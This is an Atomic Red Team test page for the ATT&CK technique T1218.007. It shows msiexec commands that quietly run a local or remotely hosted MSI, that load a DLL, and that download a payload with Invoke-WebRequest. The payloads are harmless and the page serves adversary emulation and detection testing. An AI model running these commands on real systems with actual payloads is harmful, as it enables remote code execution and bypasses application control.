 # T1218.007 - Msiexec
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/007)
<blockquote>Adversaries may abuse msiexec.exe to proxy execution of malicious payloads. Msiexec.exe is the command-line utility for the Windows Installer and is thus commonly associated with executing installation packages (.msi).(Citation: Microsoft msiexec) Msiexec.exe is digitally signed by Microsoft.

Adversaries may abuse msiexec.exe to launch local or network accessible MSI files. Msiexec.exe can also execute DLLs.(Citation: LOLBAS Msiexec)(Citation: TrendMicro Msiexec Feb 2018) Since it is signed and native on Windows systems, msiexec.exe can be used to bypass application control solutions that do not account for its potential abuse.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Msiexec.exe - Execute Local MSI file](#atomic-test-1---msiexecexe---execute-local-msi-file)

- [Atomic Test #2 - Msiexec.exe - Execute Remote MSI file](#atomic-test-2---msiexecexe---execute-remote-msi-file)

- [Atomic Test #3 - Msiexec.exe - Execute Arbitrary DLL](#atomic-test-3---msiexecexe---execute-arbitrary-dll)


<br/>

## Atomic Test #1 - Msiexec.exe - Execute Local MSI file
Execute arbitrary MSI file. Commonly seen in application installation. The MSI opens notepad.exe when sucessfully executed.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| msi_payload | MSI file to execute | Path | PathToAtomicsFolder&#92;T1218.007&#92;src&#92;Win32&#92;T1218.msi|


#### Attack Commands: Run with `command_prompt`! 


```cmd
msiexec.exe /q /i "#{msi_payload}"
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218.msi must exist on disk at specified location (#{msi_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path #{msi_payload}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
Write-Host "You must provide your own MSI"
```




<br/>
<br/>

## Atomic Test #2 - Msiexec.exe - Execute Remote MSI file
Execute arbitrary MSI file retrieved remotely. Less commonly seen in application installation, commonly seen in malware execution. The MSI opens notepad.exe when sucessfully executed.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| msi_payload | MSI file to execute | String | https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.007/src/Win32/T1218.msi|


#### Attack Commands: Run with `command_prompt`! 


```cmd
msiexec.exe /q /i "#{msi_payload}"
```






<br/>
<br/>

## Atomic Test #3 - Msiexec.exe - Execute Arbitrary DLL
Execute arbitrary DLL file stored locally. Commonly seen in application installation.
Upon execution, a window titled "Boom!" will open that says "Locked and Loaded!". For 32 bit systems change the dll_payload argument to the Win32 folder.
By default, if the src folder is not in place, it will download the 64 bit version.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dll_payload | DLL to execute | Path | PathToAtomicsFolder&#92;T1218.007&#92;src&#92;x64&#92;T1218.dll|


#### Attack Commands: Run with `command_prompt`! 


```cmd
msiexec.exe /y "#{dll_payload}"
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218.dll must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_payload}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{dll_payload}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.007/src/x64/T1218.dll" -OutFile "#{dll_payload}"
```




<br/>
